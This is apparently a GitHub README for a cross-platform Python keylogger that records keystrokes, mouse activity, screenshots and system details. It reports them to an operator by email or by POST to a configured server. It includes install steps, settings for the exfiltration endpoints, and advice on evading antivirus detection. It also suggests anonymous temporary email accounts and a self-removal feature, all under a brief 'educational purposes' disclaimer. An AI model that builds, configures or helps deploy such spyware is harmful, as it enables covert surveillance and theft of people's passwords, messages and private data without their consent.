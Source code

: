 # Keylogger with Email and Server Reporting for windows, macOS and Linux

**⚠️ DISCLAIMER: This tool is for educational purposes only. Using this software without explicit permission from the target system's owner is illegal.**

## Features

- Keyboard and mouse activity logging
- Screenshot capture
- System information collection
- Two reporting methods:
  - Email reporting (`email.py`)
  - Server reporting (`server.py`)

## Antivirus Detection result 

Only 2 antivirus providers detected this script (Google and Sophos) due to system information collection feature of the script. The script is undetected by Kaspersky,McAfee and Windows Defender. To avoid detection by google and sophos, do not use the system information collection feature.
-EMAIL.py
![Email Test Results](images/email_test1.png)
-SERVER.py
![Server Test Results](images/server_test1.png)

## Prerequisites

- Python 3.7 or higher
- Internet connection
- For email version: SMTP server credentials (e.g., Mailtrap.io account) created using [temp-mail.org](https://temp-mail.org/)
- For server version: Access to a web server you have hosted or rented that can receive POST requests

## Installation for Windows , macOS and Linux

### Windows

1. Install Python from [python.org](https://python.org)
2. Open Command Prompt as administrator and run:
```bash
pip install pynput pyscreenshot pillow requests
```

### macOS

1. Install Python (if not already installed):
   ```bash
   # Using Homebrew
   brew install python3
   
   # Or download from python.org
   ```

2. Install required packages:
   ```bash
   pip3 install pynput pyscreenshot pillow requests
   ```

3. Grant Accessibility permissions:
   - Go to System Preferences > Security & Privacy > Privacy > Accessibility
   - Add Terminal (or your IDE) to the list of allowed apps
   - This is required for keyboard monitoring

### Linux

1. Install Python and required system dependencies:
```bash
sudo apt-get update
sudo apt-get install python3 python3-pip python3-tk python3-dev scrot
```

2. Install Python packages:
```bash
pip3 install pynput pyscreenshot pillow requests
```

## Setup Instructions

### Creating TEMPERORARY Email and mailtrap.io account 

![Email Setup](images/email.png)

1. Visit mailtrap.io and click "Sign Up"
2. Choose "Sign up with email" ,you can use temperary email from [temp-mail.org](https://temp-mail.org/)
3. Once logged in, go to "Email Testing" → "Inboxes"
4. In your inbox, find the SMTP credentials:
   -Click on "Show Credentials"
   -Use the provided username and password in your configuration
   -Use the SMTP server settings provided

### Email Version (email.py)

1. Open `email.py` in a text editor

2. Configure the email settings:
   ```python
   EMAIL_ADDRESS = "YOUR_USERNAME"    # Your SMTP username
   EMAIL_PASSWORD = "YOUR_PASSWORD"   # Your SMTP password
   SEND_REPORT_EVERY = 60            # Report interval in seconds
   ```

3. if you face issues running the default then 
   Update SMTP server settings in the `send_email()` method:
   ```python
   server = smtplib.SMTP("smtp.mailtrap.io", 2525)  # Change to your SMTP server and port
   ```

### Server Version (server.py)

1. Open `server.py` in a text editor
   
2. Configure the server settings:
   ```python
   ip_address = "YOUR_SERVER_IP"      # Your server IP address
   port_number = "YOUR_SERVER_PORT"   # Your server port
   SERVER_URL = f"http://{ip_address}:{port_number}"
   ```

3. The server should be configured to accept POST requests with JSON data containing:
   - timestamp
   - system_info
   - logs
   - screenshot (base64 encoded)

## Running the Script

### Email Version
```bash
# Windows
python email.py

# Linux
python3 email.py

# macOS
python3 email.py
```

### Server Version
```bash
# Windows
python server.py

# Linux
python3 server.py

# macOS
python3 server.py
```

## Stopping the Script

Press `Ctrl+C` to stop the script. The script will automatically remove itself after termination.
open it after running and it will terminate itself.

## Dependencies

- pynput: For keyboard and mouse monitoring
- pyscreenshot: For taking screenshots
- pillow: Image processing
- requests (server version only): For HTTP requests

## Security Notice

- Always use strong, unique passwords for email accounts and server authentication
- Use test/dummy accounts and servers for testing
- Never use this tool on systems without explicit permission
- Keep the script and logs secure to prevent unauthorized access
- For server version, use HTTPS for secure data transmission

## License

Find the license [LICENSE](LICENSE.md)